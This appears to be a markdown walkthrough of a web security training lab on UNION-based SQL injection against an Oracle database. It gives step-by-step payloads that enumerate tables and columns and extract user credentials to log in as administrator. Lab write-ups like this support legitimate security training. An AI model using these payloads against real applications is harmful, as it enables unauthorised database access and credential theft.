


Lab: SQL injection attack, listing the database contents on Oracle

Solution: 
    
    1. Use Burp Suite to intercept and modify the request that sets the product category filter.

    2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'+FROM+dual--

    3. Use the following payload to retrieve the list of tables in the database:
    '+UNION+SELECT+table_name,NULL+FROM+all_tables--
    Find the name of the table containing user credentials.

    4. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
    Find the names of the columns containing usernames and passwords.

    5. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
    Find the password for the administrator user, and use it to log in.

Step to solve: [Before solving the lab use foxyproxy extension and add Burp Suite proxy]

    1. Open Burp Suite and access the LAB.
    2. Connect the proxy and turn on intercept.
    3. Now select a catergory and reload the page then send the request to the repeater and turn off intercept.
    4. We have to retrieve tables, and to do that use this query  [Use cheat sheet to get all the payloads]
    
        'union+select+table_name,+null+from+all_tables+--
        send it and copy the url. 
        and find a user type like this "USERS_IADGQO"
    5. Now to find columns of that table use this query 
        'union+select+column_name,+null+from+all_tab_columns+where+table_name='USERS_IADGQO'+--
        send it and copy the url. 
    6. Using that user and password column we will log in as an administrator by using this query
        'union+select+USERNAME_BGYBYO,+PASSWORD_JFBHXE+from+USERS_IADGQO+--
        send it!
        then copy the url and paste it in a new tab, you will get administrator username and password. Log in with that information and it's done!!

